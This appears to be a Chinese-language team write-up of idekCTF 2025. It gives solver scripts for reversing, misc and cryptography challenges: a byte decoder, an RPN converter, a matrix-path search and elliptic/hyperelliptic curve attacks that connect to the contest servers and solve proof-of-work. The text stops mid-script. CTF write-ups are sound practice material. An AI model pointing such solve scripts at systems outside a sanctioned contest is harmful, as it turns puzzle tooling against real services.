


+++
title = "idekCTF 2025 Team WriteUp"
date = "2025-08-09"
description = "AK Cryptography!!!"

[taxonomies]
tags = ["idekCTF", "Team", "WriteUp", "Cryptography", "Reverse", "Web"]
+++

大家在开赛后临时创号玩的...

> 博客还在调试，图片显示可能存在问题，在寻找一个好用的对象存储

# idekCTF 2025 Write-ups / Challenge List

| #    | Category | Challenge             | Solved | Points | Note                                                         | Attachments                                          |
| ---- | -------- | --------------------- | ------ | ------ | ------------------------------------------------------------ | ---------------------------------------------------- |
| 1    | sanity   | check                 | 774    | 100    | sanity check, simply print the flag                          | -                                                    |
| 2    | rev      | constructor           | 371    | 100    | Zerotistic said “Heard of constructor?”                      | [constructor.tar.gz](constructor.tar.gz)             |
| 3    | sanity   | survey                | 196    | 100    | quick survey for feedback                                    | -                                                    |
| 4    | misc     | gacha-gate            | 144    | 139    | `nc gacha-gate.chal.idek.team 1337`                          | [gacha-gate.tar.gz](gacha-gate.tar.gz)               |
| 5    | crypto   | Catch                 | 134    | 146    | cat-themed crypto, `nc catch.chal.idek.team 1337`            | [catch.tar.gz](catch.tar.gz)                         |
| 6    | rev      | ski                   | 70     | 231    | two interpreters but “using too many resources” (.𖥔 ݁ ˖⋆ ˚❆)  | [ski.tar.gz](ski.tar.gz)                             |
| 7    | crypto   | Sadness ECC           | 65     | 242    | “doesn't know if it's an elliptic curve or not”              | [sad_ecc.tar.gz](sad_ecc.tar.gz)                     |
| 8    | crypto   | Happy ECC             | 58     | 259    | opposite of Sadness ECC                                      | [happy_ecc.tar.gz](happy_ecc.tar.gz)                 |
| 9    | web      | *midi visualizer      | 38     | 320    | [https://midi-visualizer-web.chal.idek.team](https://midi-visualizer-web.chal.idek.team) | [midi-visualizer.tar.gz](midi-visualizer.tar.gz)     |
| 10   | crypto   | Diamond Ticket        | 37     | 323    | Charles & chocolate factory (harder)                         | [diamond_ticket.tar.gz](diamond_ticket.tar.gz)       |
|      |          |                       |        |        |                                                              |                                                      |
| 12   | crypto   | Sadness ECC - Revenge | 27     | 362    | password = flag from Sadness ECC, `nc sad-ecc-revenge.chal.idek.team 1337` | [sad_ecc_revenge.tar.gz](sad_ecc_revenge.tar.gz)     |
| 13   | crypto   | Happy ECC - Revenge   | 26     | 367    | password = flag from Happy ECC                               | [happy_ecc_revenge.tar.gz](happy_ecc_revenge.tar.gz) |
| 16   | crypto   | FITM                  | 17     | 409    | “Let me share it for you”, `nc fitm.chal.idek.team 1337`     | [FITM.tar.gz](FITM.tar.gz)                           |

> 题目名称前带 `*` 的为赛后做出的

# sanity

## check

签到

## survey

问卷

# rev

## constructor

```python
def solve_flag():
    """
    Applies the decryption algorithm found in the binary's constructor
    function to the extracted data.
    """
    # The 42 encrypted bytes from address 0x403040
    encrypted_flag = [
      0x33, 0x21, 0x00, 0x6d, 0x5f, 0xab, 0x86, 0xb4, 0xd4, 0x2d, 0x36, 0x3a,
      0x4e, 0x90, 0x8c, 0xe3, 0xcc, 0x2e, 0x09, 0x6c, 0x49, 0xb8, 0x8f, 0xf7,
      0xcc, 0x22, 0x4e, 0x4d, 0x5e, 0xb8, 0x80, 0xcb, 0xd3, 0xda, 0x20, 0x29,
      0x70, 0x02, 0xb7, 0xd1, 0xb7, 0xc4
    ]

    decrypted_flag = ""
    mask32 = 0xFFFFFFFF  # Used to simulate 32-bit register behavior
    key1_register = 0    # Simulates the %ecx register

    for i in range(42):
        # The encrypted byte is loaded into the low part of a 32-bit register
        encrypted_word = encrypted_flag[i]
        
        # Key 1: The full 32-bit value of the %ecx register
        key1 = key1_register
        
        # Key 2: The loop counter right-shifted by 1
        key2 = i >> 1
        
        # Key 3: The constant 0x5a
        key3 = 0x5a
        
        # The decryption emulates the 32-bit 'xorl' operations
        decrypted_word = encrypted_word ^ key1 ^ key2 ^ key3
        
        # The final character is the lowest byte of the result
        decrypted_byte = decrypted_word & 0xFF
        decrypted_flag += chr(decrypted_byte)
        
        # The %ecx register is incremented for the next loop
        key1_register = (key1_register + 0x1f) & mask32

    return decrypted_flag

# --- Run the solver ---
final_flag = solve_flag()
print(f"Decrypted Flag: {final_flag}")
```

## ski

Given a SKI combinator program (program.txt) and an interpreter, the challenge encodes the flag as bits, mapping each bit to a variable (_F0, _F1, ...). Each _F{i} is set to K if the bit is 1, or (K I) if 0.

The SKI expression is a sequence of similar blocks, each containing several _F... variables. The number of _F... variables in each block corresponds to a specific bit pattern.

focus on the final part of `txt` file from here:
`(((S ((S I) (K (K I)))) (K K)) _F0)) _F1)) _F2))...`

Each check block has the form (((S ((S I) (K (K I)))) (K K)) ... ) and inside, the number of _F... variables determines the bit pattern to check:

- 1 variable: checks for bit pattern 0
- 2 variables: checks for 01
- 3 variables: checks for 011
- 4 variables: checks for 0111
etc.

script:

```python
import re

data = open("program.txt").read()
segments = re.split(r"\(\(\(S", data)
pattern_map = {1: "0", 2: "01", 3: "011", 4: "0111", 5: "01111", 6: "011111"}

bits = "".join(pattern_map[len(re.findall(r"_F\d+", seg))] for seg in segments if re.findall(r"_F\d+", seg))
flag = "".join(chr(int(bits[i:i+8], 2)) for i in range(0, len(bits), 8) if len(bits[i:i+8]) == 8)
print(flag)
```

# misc

## gacha-gate



```python
def solve():
    """
    Connects to the server, solves 50 challenges, and gets the flag.
    """
    HOST = 'gacha-gate.chal.idek.team'
    PORT = 1337
    conn = remote(HOST, PORT)

    # CRITICAL: Receive and discard the initial banner to sync with the server.
    conn.recvuntil(b'lets play a game!\n')
    log.info("Initial banner received. Starting challenges...")

    for i in range(50):
        try:
            # Now, this will correctly read the first mathematical expression.
            infix_expr = conn.recvline().decode().strip()
            if not infix_expr: # Handle empty lines just in case
                continue
            
            log.info(f"[{i+1}/50] Received: {infix_expr}")
            
            # Convert the expression to RPN
            rpn_expr = shunting_yard(infix_expr)
            log.success(f"[{i+1}/50] Sending:   {rpn_expr}")
            
            # Send the RPN solution
            conn.sendline(rpn_expr.encode())
            
            # The server will respond with "let me see.." before the next challenge.
            # We can optionally read this to stay in sync, but for this specific
            # challenge, reading only at the top of the loop is sufficient.
            conn.recvline() # Consume the "let me see.." line

        except EOFError:
            log.error("Connection closed by server. This likely happened after an incorrect answer.")
            break
        except Exception as e:
            log.error(f"An error occurred: {e}")
            conn.close()
            return
            
    # After the loop, try to receive the flag
    try:
        flag = conn.recvall(timeout=2).decode().strip()
        if "idek{" in flag:
            log.success(f"🎉 Success! Flag: {flag}")
        else:
            log.warning(f"Loop finished, but no flag received. Server response: {flag}")
    except Exception as e:
        log.error(f"Could not receive flag. Error: {e}")
    finally:
        conn.close()

# The rest of the script (imports, shunting_yard, etc.) remains the same.
# Make sure to call solve() at the end.
if __name__ == "__main__":
    solve()
```

## Catch

This is a classic "meet-in-the-middle" or search problem disguised as a random walk. However, the search space is far too large for a brute-force attack. The key lies in reversing the process and exploiting a mathematical property of the transformations.

### Analysis of the Challenge

The core of the challenge is the `walking` function, which applies a linear transformation (a 2x2 matrix multiplication) to the cat's coordinates `(x, y)`. Each of the 125 unique 8-byte `part`s from the cat's `mind` corresponds to a unique transformation matrix.

The `moving` function applies 30 of these transformations sequentially. The parts are chosen without replacement. A crucial observation is the condition for breaking the loop: `if self.x > limit or self.y > limit`.

1.  **Initial State**: The cat starts with coordinates `x` and `y`, which are random 256-bit integers (`~2^256`).
2.  **Transformation**: The matrix elements (`epart`) are 16-bit integers.
3.  **Coordinate Growth**: At each step, the bit length of the coordinates increases by approximately 17 bits. Starting from \~256 bits, after 30 steps, the coordinates will have a bit length of roughly `256 + 30 * 17 = 766` bits.
4.  **The `limit`**: The `limit` is a 1024-bit integer.
5.  **Conclusion**: Since the coordinates grow to about 766 bits, they will **never exceed the 1024-bit `limit`**. This means the `break` statement is never triggered, and the loop always runs for exactly **30 steps**. The final position is calculated without any modulo operations.

Our task is to find the exact sequence of 30 transformations that maps the initial position `(x_0, y_0)` to the final position `(x_f, y_f)`.

### The Reversal Strategy

Let the sequence of transformation matrices be $M_1, M_2, \ldots, M_{30}$. The final position vector $v_f$ is given by:
$$v_f = M_{30} \cdot M_{29} \cdots M_1 \cdot v_0$$

Since matrix multiplication is associative, we can work backward one step at a time:
$$v_{29} = M_{30}^{-1} \cdot v_f$$

The inverse of a 2x2 matrix $M = \begin{pmatrix} a & b \\ c & d \end{pmatrix}$ is $M^{-1} = \frac{1}{\det(M)} \begin{pmatrix} d & -b \\ -c & a \end{pmatrix}$.

For the coordinates of $v_{29}$ to be integers (as they are at every step of the cat's journey), the vector $\begin{pmatrix} d & -b \\ -c & a \end{pmatrix} \cdot v_f$ must be component-wise divisible by $\\det(M_{30})$.

This divisibility requirement is a very strong constraint. For any given matrix, the probability that this condition holds is extremely low. Therefore, at each step of our backward search, we can almost uniquely identify which matrix was applied.

The strategy is to perform a depth-first search (DFS) backward from the final position `(x_f, y_f)`.

1.  Start at `(x_f, y_f)`.
2.  Iterate through all 125 possible parts.
3.  For each part, form its matrix `M` and calculate its determinant `det(M)`.
4.  Check if `M` could have been the last matrix applied (`M_30`) by testing the divisibility constraint.
5.  If the constraint holds, calculate the previous position `v_29` and recursively search from there with the remaining 124 parts.
6.  Continue this process for 30 steps until we reach the initial position `(x_0, y_0)`.

This will efficiently reveal the unique sequence of 30 parts in reverse order.

### The Solution Script

Here is a Python script using `pwntools` to automate the process for all 20 rounds.

```python
#!/usr/bin/env python3
from pwn import *
import ast

def get_matrix_from_part(part):
    """Parses an 8-byte part into a tuple of 4 integers (matrix elements)."""
    a = int.from_bytes(part[0:2], "big")
    b = int.from_bytes(part[2:4], "big")
    c = int.from_bytes(part[4:6], "big")
    d = int.from_bytes(part[6:8], "big")
    return (a, b, c, d)

def solve_round(initial_pos, final_pos, all_parts):
    """
    Solves a single round using an iterative Depth-First Search (DFS)
    based on the divisibility constraint.
    """
    # Stack for DFS: (current_target_pos, available_parts_set, path_in_reverse)
    stack = [(final_pos, frozenset(all_parts), [])]

    while stack:
        current_pos, available, path_rev = stack.pop()

        if len(path_rev) == 30:
            if current_pos == initial_pos:
                log.success("Found the correct path of 30 steps!")
                # The path was built in reverse, so we flip it.
                return b"".join(path_rev[::-1])
            continue

        tx, ty = current_pos
        for part in available:
            a, b, c, d = get_matrix_from_part(part)
            det = a * d - b * c
            if det == 0:
                continue

            # Calculate the numerators for the inverse transformation
            prev_x_num = d * tx - b * ty
            prev_y_num = -c * tx + a * ty

            # The key insight: intermediate coordinates must be integers.
            if prev_x_num % det == 0 and prev_y_num % det == 0:
                prev_pos = (prev_x_num // det, prev_y_num // det)
                stack.append((prev_pos, available - {part}, path_rev + [part]))
    
    return None # Should not be reached

def main():
    conn = remote("catch.chal.idek.team", 1337)
    
    for round_num in range(20):
        conn.recvuntil(b"begins!\n")
        
        # Parse initial position
        line_co_location = conn.recvline().decode().strip()
        x0, y0 = ast.literal_eval(line_co_location.split(": ")[1])
        
        # Parse the cat's mind
        line_mind = conn.recvline().decode().strip()
        mind_hex = line_mind.split(": ")[1]
        mind_bytes = bytes.fromhex(mind_hex)
        all_parts = [mind_bytes[i:i+8] for i in range(0, 1000, 8)]
        
        conn.recvuntil(b"The chase is on!\n")
        
        # Parse final position
        line_final_pos = conn.recvline().decode().strip()
        xf, yf = ast.literal_eval(line_final_pos.split(": ")[1])
        
        log.info(f"--- Starting Hunt {round_num+1}/20 ---")

        # Solve the round
        solution_path_bytes = solve_round((x0, y0), (xf, yf), all_parts)
        
        if solution_path_bytes is None:
            log.error("Solver failed. Something is wrong with the assumptions.")
            conn.close()
            return

        solution_hex = solution_path_bytes.hex()
        conn.sendlineafter(b"Path to recall (hex): ", solution_hex.encode())
        
        response = conn.recvline()
        if b"Reunion!" not in response:
            log.error("Submitted the wrong path.")
            print(response.decode())
            conn.close()
            return
            
    flag = conn.recvall().decode()
    log.success(f"Flag: {flag}")

if __name__ == "__main__":
    main()
```

## Sadness ECC

如下题，直接看 `Sadness ECC - Revenge`

## Happy ECC

```flag
idek{find_the_order_of_hyperelliptic_curve_is_soooo_hard:((}
```

懒得贴了，直接看 `Happy ECC - Revenge` 的 Exploit，没啥区别


## Diamond Ticket

## Sadness ECC - Revenge

Revenge 换了更麻烦的 PoW, 糊一个解决 PoW 的代码段上去就行

后续的做法没啥区别

```python
# bad ecc revenge exp.py
# sage
from pwn import remote
import subprocess
import ast
from sage.all import *

# PoW
kctf_solver_code = """
#!/usr/bin/env python3
import base64, os, secrets, socket, sys, hashlib
try:
    import gmpy2
    HAVE_GMP = True
except ImportError:
    HAVE_GMP = False
VERSION = 's'
MODULUS = 2**1279-1
def python_sloth_root(x, diff, p):
    exponent = (p + 1) // 4
    for i in range(diff):
        x = pow(x, exponent, p) ^ 1
    return x
def gmpy_sloth_root(x, diff, p):
    exponent = (p + 1) // 4
    for i in range(diff):
        x = gmpy2.powmod(x, exponent, p).bit_flip(0)
    return int(x)
def sloth_root(x, diff, p):
    if HAVE_GMP: return gmpy_sloth_root(x, diff, p)
    else: return python_sloth_root(x, diff, p)
def encode_number(num):
    size = (num.bit_length() // 24) * 3 + 3
    return str(base64.b64encode(num.to_bytes(size, 'big')), 'utf-8')
def decode_number(enc):
    return int.from_bytes(base64.b64decode(bytes(enc, 'utf-8')), 'big')
def decode_challenge(enc):
    dec = enc.split('.')
    if dec[0] != VERSION: raise Exception('Unknown challenge version')
    return list(map(decode_number, dec[1:]))
def encode_challenge(arr):
    return '.'.join([VERSION] + list(map(encode_number, arr)))
def solve_challenge(chal):
    [diff, x] = decode_challenge(chal)
    y = sloth_root(x, diff, MODULUS)
    return encode_challenge([y])
def main():
    if len(sys.argv) != 3 or sys.argv[1] != 'solve': sys.exit(1)
    challenge = sys.argv[2]
    solution = solve_challenge(challenge)
    sys.stdout.write(solution)
if __name__ == "__main__":
    main()
"""

class DummyPoint:
    O = object()

    def __init__(self, x=None, y=None):
        if (x, y) == (None, None):
            self._infinity = True
        else:
            assert DummyPoint.isOnCurve(x, y), (x, y)
            self.x, self.y = x, y
            self._infinity = False

    @classmethod
    def infinity(cls):
        return cls()

    def is_infinity(self):
        return getattr(self, "_infinity", False)

    @staticmethod
    def isOnCurve(x, y):
        return "<REDACTED>"

    def __add__(self, other):
        if other.is_infinity():
            return self
        if self.is_infinity():
            return other

        # ——— Distinct‑points case ———
        if self.x != other.x or self.y != other.y:
            dy    = self.y - other.y
            dx    = self.x - other.x
            inv_dx = 1 / dx
            prod1 = dy * inv_dx
            s     = prod1

            inv_s = 1 / s
            s3    = inv_s ** 3

            tmp1 = s * self.x
            d    = self.y - tmp1

            d_minus    = d - 1337
            neg_three  = -3
            tmp2       = neg_three * d_minus
            tmp3       = tmp2 * inv_s
            sum_x      = self.x + other.x
            x_temp     = tmp3 + s3
            x_pre      = x_temp - sum_x
            x          = x_pre

            tmp4       = self.x - x
            tmp5       = s * tmp4
            y_pre      = self.y - tmp5
            y          = y_pre

            return DummyPoint(x, y)

        dy_term       = self.y - 1337
        dy2           = dy_term * dy_term
        three_dy2     = 3 * dy2
        inv_3dy2      = 1 / three_dy2
        two_x         = 2 * self.x
        prod2         = two_x * inv_3dy2
        s             = prod2

        inv_s         = 1 / s
        s3            = inv_s**3

        tmp6          = s * self.x
        d2            = self.y - tmp6

        d2_minus      = d2 - 1337
        tmp7          = -3 * d2_minus
        tmp8          = tmp7 * inv_s
        x_temp2       = tmp8 + s3
        x_pre2        = x_temp2 - two_x
        x2            = x_pre2

        tmp9          = self.x - x2
        tmp10         = s * tmp9
        y_pre2        = self.y - tmp10
        y2            = y_pre2

        return DummyPoint(x2, y2)

    def __rmul__(self, k):
        if not isinstance(k, int) or k < 0:
            raise ValueError("Choose another k")
        
        R = DummyPoint.infinity()
        addend = self
        while k:
            if k & 1:
                R = R + addend
            addend = addend + addend
            k >>= 1
        return R

    def __repr__(self):
        return f"DummyPoint({self.x}, {self.y})"

    def __eq__(self, other):
        return self.x == other.x and self.y == other.y
        
def compositeModulusGCD(a, b):
    if(b == 0):
        return a.monic()
    else:
        return compositeModulusGCD(b, a % b)
def verify(x, y):
    return (x**2 - (y - 1337)**3) % n == 0

# Write the solver code to a file
with open("kctf_solver.py", "w") as f:
    f.write(kctf_solver_code)
 
# ECC
 
def compositeModulusGCD(a, b):
    if(b == 0): return a.monic()
    else: return compositeModulusGCD(b, a % b)
 
 
# Establish connection
io = remote("sad-ecc-revenge.chal.idek.team", 1337)
 
# --- Handle PoW using the subprocess method ---
print("[*] Handling Proof-of-Work using subprocess...")
io.recvuntil(b") solve ")
challenge = io.recvline().strip().decode()
print(f"[*] Received PoW challenge: {challenge}")
 
# Run the external solver script
result = subprocess.run(
    ['python3', 'kctf_solver.py', 'solve', challenge],
    capture_output=True,
    text=True
)
solution = result.stdout.strip()
 
print(f"[*] Calculated PoW solution: {solution}")
io.sendlineafter(b"Solution? ", solution.encode())
io.recvuntil(b"Correct\n")
print("[+] PoW solved!")

# io.interactive()
io.sendafter(b"> ", b"2\n")

n = 18462925487718580334270042594143977219610425117899940337155124026128371741308753433204240210795227010717937541232846792104611962766611611163876559160422428966906186397821598025933872438955725823904587695009410689230415635161754603680035967278877313283697377952334244199935763429714549639256865992874516173501812823285781745993930473682283430062179323232132574582638414763651749680222672408397689569117233599147511410313171491361805303193358817974658401842269098694647226354547005971868845012340264871645065372049483020435661973539128701921925288361298815876347017295555593466546029673585316558973730767171452962355953
x1, y1, x2, y2 = var("x1 y1 x2 y2")
s1, s2, s3 = eval(io.recvline().decode().split(":")[1])
# print(f"{s1}")
# print(f"{s2}")
# print(f"{s3}")

f = -x1 - x2 + 3*(x1 - x2)*(x1*(y1 - y2)/(x1 - x2) - y1 + 1337)/(y1 - y2) + (x1 - x2)**3/(y1 - y2)**3 -(2*x1 + x2 - 3*(x1 - x2)*(x1*(y1 - y2)/(x1 - x2) - y1 + 1337)/(y1 - y2) - (x1 - x2)**3/(y1 - y2)**3)*(y1 - y2)/(x1 - x2) + y1
f = f - s3
f = f(y1 = s1 - x1, y2 = s2 - x2)
f = f.numerator()
E1 = x1**2 - (y1 - 1337)**3
E2 = x2**2 - (y2 - 1337)**3
E1 = E1(y1 = s1 - x1)
E2 = E2(y2 = s2 - x2)
f1 = f.resultant(E1, x1)
f2 = f.resultant(E2, x1)
PR = PolynomialRing(Zmod(n), name="x")
x = PR.gens()[0]
g1 = PR(str(f1).replace("x2", "x"))
g2 = PR(str(f2).replace("x2", "x"))
x2_ = -list(compositeModulusGCD(g1, g2))[0]
y2_ = s2 - x2_

PR = PolynomialRing(Zmod(n), name="x")
x = PR.gens()[0]
f1 = f.resultant(E1, x2)
f2 = f.resultant(E2, x2)
g1 = PR(str(f1).replace("x1", "x"))
g2 = PR(str(f2).replace("x1", "x"))
x1_ = -list(compositeModulusGCD(g1, g2))[0]
y1_ = s1 - x1_
P1 = DummyPoint(x1_, y1_)
P2 = DummyPoint(x2_, y2_)
P3 = P1 + P2
x3_, y3_ = P3.x, P3.y
points = [x1_, y1_, x2_, y2_, x3_, y3_]
io.sendafter("Your reveal: ", str(points).encode() + b"\n")
print(io.recvall(3).decode())
# idek{the_idea_came_from_a_Vietnamese_high_school_Mathematical_Olympiad_competition_xD_sorry_for_unintended_:sob:_75f492115a34ff4324212e09e24aa5bd}
```


## Happy ECC - Revenge

> 后面上了复仇，需要用不带复仇的 flag 解密附件，但做出这道题的哥们把脚本删了，就用他提到的函数自己写了个，挂后台不抱希望结果出了，难绷



复仇的题目依旧没什么区别，看来是按照预期解做的

diff 下发现是加了一点点判断，暂时懒得放截图了

```python
# chall.py                               
from sage.all import *
from Crypto.Util.number import *

# Edited a bit from https://github.com/aszepieniec/hyperelliptic/blob/master/hyperelliptic.sage
class HyperellipticCurveElement:
    def __init__( self, curve, U, V ):
        self.curve = curve
        self.U = U
        self.V = V

    @staticmethod
    def Cantor( curve, U1, V1, U2, V2 ):
        # 1.
        g, a, b = xgcd(U1, U2)   # a*U1 + b*U2 == g
        d, c, h3 = xgcd(g, V1+V2) # c*g + h3*(V1+V2) = d
        h2 = c*b
        h1 = c*a
        # h1 * U1 + h2 * U2 + h3 * (V1+V2) = d = gcd(U1, U2, V1-V2)

        # 2.
        V0 = (U1 * V2 * h1 + U2 * V1 * h2 + (V1*V2 + curve.f) * h3).quo_rem(d)[0]
        R = U1.parent()
        V0 = R(V0)

        # 3.
        U = (U1 * U2).quo_rem(d**2)[0]
        U = R(U)
        V = V0 % U

        while U.degree() > curve.genus:
            # 4.
            U_ = (curve.f - V**2).quo_rem(U)[0]
            U_ = R(U_)
            V_ = (-V).quo_rem(U_)[1]

            # 5.
            U, V = U_.monic(), V_
        # (6.)

        # 7.
        return U, V

    def parent( self ):
        return self.curve

    def __add__( self, other ):
        U, V = HyperellipticCurveElement.Cantor(self.curve, self.U, self.V, other.U, other.V)
        return HyperellipticCurveElement(self.curve, U, V)

    def inverse( self ):
        return HyperellipticCurveElement(self.curve, self.U, -self.V)

    def __rmul__(self, exp):
        R = self.U.parent()
        I = HyperellipticCurveElement(self.curve, R(1), R(0))

        if exp == 0:
            return HyperellipticCurveElement(self.curve, R(1), R(0))
        if exp == 1:
            return self

        acc = I
        Q = self
        while exp:
            if exp & 1:
                acc = acc + Q
            Q = Q + Q
            exp >>= 1
        return acc
    
    def __eq__( self, other ):
        if self.curve == other.curve and self.V == other.V and self.U == other.U:
            return True
        else:
            return False

class HyperellipticCurve_:
    def __init__( self, f ):
        self.R = f.parent()
        self.F = self.R.base_ring()
        self.x = self.R.gen()
        self.f = f
        self.genus = floor((f.degree()-1) / 2)
    
    def identity( self ):
        return HyperellipticCurveElement(self, self.R(1), self.R(0))
    
    def random_element( self ):
        roots = []
        while len(roots) != self.genus:
            xi = self.F.random_element()
            yi2 = self.f(xi)
            if not yi2.is_square():
                continue
            roots.append(xi)
            roots = list(set(roots))
        signs = [ZZ(Integers(2).random_element()) for r in roots]

        U = self.R(1)
        for r in roots:
            U = U * (self.x - r)

        V = self.R(0)
        for i in range(len(roots)):
            y = (-1)**(ZZ(Integers(2).random_element())) * sqrt(self.f(roots[i]))
            lagrange = self.R(1)
            for j in range(len(roots)):
                if j == i:
                    continue
                lagrange = lagrange * (self.x - roots[j])/(roots[i] - roots[j])
            V += y * lagrange

        return HyperellipticCurveElement(self, U, V)
 
p = getPrime(40)
R, x = PolynomialRing(GF(p), 'x').objgen()

f = R.random_element(5).monic()
H = HyperellipticCurve_(f)

print(f"{p = }")
if __name__ == "__main__":
    cnt = 0
    while True:
        print("1. Get random point\n2. Solve the challenge\n3. Exit")
        try:
            opt = int(input("> "))
        except:
            print("❓ Try again."); continue

        if opt == 1:
            if cnt < 3:
                G = H.random_element()
                k = getRandomRange(1, p)
                P = k * G
                print("Here is your point:")
                print(f"{P.U = }")
                print(f"{P.V = }")
                cnt += 1
            else:
                print("You have enough point!")
                continue

        elif opt == 2:
            G = H.random_element()
            print(f"{(G.U, G.V) = }")
            print("Give me the order !")
            odr = int(input(">"))
            if (odr * G).U == 1 and odr > 0:
                print("Congratz! " + open("flag.txt", "r").read())
            else:
                print("Wrong...")
            break

        else:
            print("Farewell.") 
            break
```

本题可能卡时间，单纯超椭圆上运算太慢，多试试运气

```python
# crypto/Happy ECC - Revenge
import hashlib
import re
from sage.all import *
from pwn import *
import subprocess
import ast

context.log_level = "debug"

# ===================================================================
# ## Part 1: Official PoW Solver Code
# ## This code will be written to a file named 'kctf_solver.py'.
# ===================================================================

kctf_solver_code = """
#!/usr/bin/env python3
import base64, os, secrets, socket, sys, hashlib
try:
    import gmpy2
    HAVE_GMP = True
except ImportError:
    HAVE_GMP = False
VERSION = 's'
MODULUS = 2**1279-1
def python_sloth_root(x, diff, p):
    exponent = (p + 1) // 4
    for i in range(diff):
        x = pow(x, exponent, p) ^ 1
    return x
def gmpy_sloth_root(x, diff, p):
    exponent = (p + 1) // 4
    for i in range(diff):
        x = gmpy2.powmod(x, exponent, p).bit_flip(0)
    return int(x)
def sloth_root(x, diff, p):
    if HAVE_GMP: return gmpy_sloth_root(x, diff, p)
    else: return python_sloth_root(x, diff, p)
def encode_number(num):
    size = (num.bit_length() // 24) * 3 + 3
    return str(base64.b64encode(num.to_bytes(size, 'big')), 'utf-8')
def decode_number(enc):
    return int.from_bytes(base64.b64decode(bytes(enc, 'utf-8')), 'big')
def decode_challenge(enc):
    dec = enc.split('.')
    if dec[0] != VERSION: raise Exception('Unknown challenge version')
    return list(map(decode_number, dec[1:]))
def encode_challenge(arr):
    return '.'.join([VERSION] + list(map(encode_number, arr)))
def solve_challenge(chal):
    [diff, x] = decode_challenge(chal)
    y = sloth_root(x, diff, MODULUS)
    return encode_challenge([y])
def main():
    if len(sys.argv) != 3 or sys.argv[1] != 'solve': sys.exit(1)
    challenge = sys.argv[2]
    solution = solve_challenge(challenge)
    sys.stdout.write(solution)
if __name__ == "__main__":
    main()
"""

# Write the solver code to a file to be called by the subprocess
with open("kctf_solver.py", "w") as f:
    f.write(kctf_solver_code)

def parse_poly_str(s, R):
    """Parses the server's polynomial string into a Sage polynomial object."""
    return R(s.replace('^', '**'))

def solve():
    # Connect to the challenge server
    # conn = remote('happy-ecc.chal.idek.team', 1337)
    conn = remote('happy-ecc-revenge.chal.idek.team', 1337)

    # --- Part 1: Solve Proof-of-Work ---
    try:
        log.info("Waiting for Proof-of-Work challenge...")
        # pow_line = conn.recvuntil(b"Input the decimal result of n", timeout=10)
        # match = re.search(rb"b'(.+)'\)\.hexdigest\(\) = (.+)", pow_line)
        # salt, target_hash = match.group(1), match.group(2).decode()
        
        # log.info(f"PoW Salt: {salt.decode()}, Target: {target_hash}")
        # log.info("Brute-forcing PoW solution 'n'...")
        
        # for n in range(2**28):
        #     if hashlib.md5(str(n).encode() + salt).hexdigest() == target_hash:
        #         log.success(f"PoW solution found: n = {n}")
        #         conn.sendlineafter(b': ', str(n).encode())
        #         break
        # else:
        #     log.failure("Could not solve PoW.")
        #     conn.close()
        #     return
